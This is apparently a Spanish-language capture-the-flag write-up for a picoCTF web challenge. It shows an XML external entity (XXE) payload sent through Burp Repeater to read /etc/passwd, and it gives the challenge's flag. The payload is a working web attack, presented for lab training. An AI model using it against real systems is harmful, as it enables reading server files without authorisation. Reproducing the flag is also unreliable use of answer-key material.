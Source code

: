 ## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:51411/)
## Solución
- Activamos nuestro proxy, vamos a la herramienta Burp para ver las peticiones que se interceptaron, tomamos una y la mandamos a la sección Repeater, en la petición colocamos el siguiente código para leer los archivos del sistema y de esa manera encontramos la bandera.
```bash
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]>
	<data>
	<ID>
		&toreplace;
	</ID>
	</data>

picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```

## Notas Adicionales
## Referencias
- [XXE - XEE - XML External Entity - HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)